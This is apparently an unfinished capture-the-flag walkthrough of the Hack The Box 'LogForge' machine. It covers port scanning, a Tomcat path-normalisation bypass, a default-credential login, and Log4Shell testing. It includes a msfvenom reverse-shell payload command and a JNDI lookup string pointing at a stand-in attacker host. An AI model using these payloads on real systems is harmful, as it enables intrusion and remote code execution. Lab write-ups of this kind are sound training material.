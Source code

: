 ```yaml
---
tags: 
group: Linux
---
```

![](https://labs.hackthebox.com/storage/avatars/9b50e63692fc35f864c8df9c19ef0e2f.png)

- Machine : 
- Reference : 
- Solved : 2024.00.00. (Thu) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.138
Performing quick port scan on 10.10.11.138...
Found open ports: 22,80
Performing detailed scan on 10.10.11.138...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-01 05:36 EST
Nmap scan report for 10.10.11.138
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.04 seconds
```

2 ports are open : `ssh(22)`, and `http(80)`
Let me start from web service on port 80.

### http(80)

![](attachments/logforge_1.png)

The main page is simple. It has only a single image.
Its source code doesn't have anything special.
Let's scan further with `nikto`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://10.10.11.138
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.138
+ Target Hostname:    10.10.11.138
+ Target Port:        80
+ Start Time:         2024-12-01 05:47:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

The website looks simple and normal apparently...
I fuzzed around website and tried to observe web request header when 404 error.
Here I can find some weird mismatch.

![](attachments/logforge_3.png)

This is the 404 error message saying that the server is running `Apache Tomcat/9.0.31`.

![](attachments/logforge_4.png)

This is the request header identifying the server as `Apache/2.4.41`.
This means that there must be a reverse-proxy which is running behind.

Here's a reference announced in 2018 how to exploit this mismatch:
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

In summary, due to the difference between the server-side applications, there might be a slack to exploit Path Normalization process.
`/..;/` can be processed as parent directory in its backend.

So, if I connect to `http://10.10.11.138/whatever/..;/manager/`,
This will be redirected to `http://10.10.11.138/manager` which is prohibited to connect.

![](attachments/logforge_2.png)

Yup, it shows a login input. I can try default credential : `tomcat:tomcat`, and it works!

![](attachments/logforge_6.png)

# Shell as `www-data`

### Uploading `war` file to open a reverse shell

Once you have an access to "apacheNaive approach is uploading malicious `war` file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.11.7 LPORT=9000 -f war -o rshell.war
Payload size: 13029 bytes
Final size of war file: 13029 bytes
Saved as: rshell.war
```

However, when I tried to upload and deploy the file, I got the following error;

```yaml
FAIL - Deploy Upload Failed, Exception: [org.apache.tomcat.util.http.fileupload.impl.FileSizeLimitExceededException: The field deployWar exceeds its maximum permitted size of 1 bytes.]
```

It says the size for the uploaded file is limited to 1 bytes.
It's almost impossible to upload 1 byte reverse shell file...

Let's try look for other methods... Log4Shell!

### Log4Shell

To summarize Log4J vulnerability, it's a vulnerability happening on `Log4J` module in Java engine.

`${jndi:ldap://attacker.com/a}` This request is for an lookup operation.
However, this request might triggers server-side fetching remote server, and ended up executing remote code if the URL contains malicious code.

 I tested existing applications in tomcat manager, and found out that `Expire sessions` for `/UHC{BadWayToBlockTomcat}` contains POST parameter that we can inject `jndi` string.

While sending the request, I can check it's working by monitoring LDAP traffic using `tcpdump`.

![](attachments/logforge_7.png)

It is! The server is trying to fetching our kali machine from its backend which means it's vulnerable to `Log4Shell` attack.

There's an existing exploit named "JNDI-Exploit-Kit" as follows;
https://github.com/pimps/JNDI-Exploit-Kit/


> Let me hold here. The existing walkthrough using `ysoserial` and `jndi-exploit-kit` are not working... Let's visit later.
